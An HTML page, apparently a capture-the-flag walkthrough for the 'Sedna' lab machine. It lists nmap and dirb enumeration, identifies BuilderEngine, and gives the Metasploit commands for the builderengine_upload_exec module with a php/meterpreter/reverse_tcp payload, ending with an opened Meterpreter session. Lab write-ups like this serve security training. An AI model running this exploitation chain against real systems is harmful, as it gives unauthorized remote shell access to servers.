

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    
<h1 style="margin-top:100px;font-size:150px;color: red;">Sedna Machine</h1>

    
<h2 style="margin-top: -100px;font-size: 50px;color: brown;">Walkthrough</h2>

    <h1 style="font-size: 50px;">Lets Start With Nmap</h1>
    
    
nmap -A  -p-  -T4  -sV  --script  vuln  [ip]

    
    
    
    <h1 style="font-size: 50px;">The Open Ports</h1>
    
    

    
    
Note : There Is Website 

    
    <h1 style="font-size: 50px;">Website</h1> 
    
    
    
    <h1 style="font-size: 50px;">Search Directories</h1> 
    
    
dirb    [ip] 

    
    <h1 style="font-size: 50px;">Result Of Search Directories</h1> 
    
There Is This File : http://[ip]/modules/builder_market/license.txt

    
       
    
We Got A Service

    
    <h1 style="font-size: 50px;">Lets Search With Google To Get Exploit</h1> 
    
builderengine exploit

    
    
Link : <a href="https://www.rapid7.com/db/modules/exploit/multi/http/builderengine_upload_exec/">Here</a>

    <h1 style="font-size: 50px;">Open Metasploit</h1> 
    
Write : msfconsole      in kali

    
    <h1 style="font-size: 50px;">Start Exploit</h1> 
    
use exploit/multi/http/builderengine_upload_exec

    
    
set RHOSTS   [ip]

    
    
set PAYLOAD php/meterpreter/reverse_tcp

    
    <h1 style="font-size: 50px;">Lets Run</h1> 
    
run

    
    
Meterpreter session opened

    
    
<h1 style="margin-top:100px;font-size:90px;color: red;">Have Fun With Sedna</h1> 

    
    

</body>
</html>
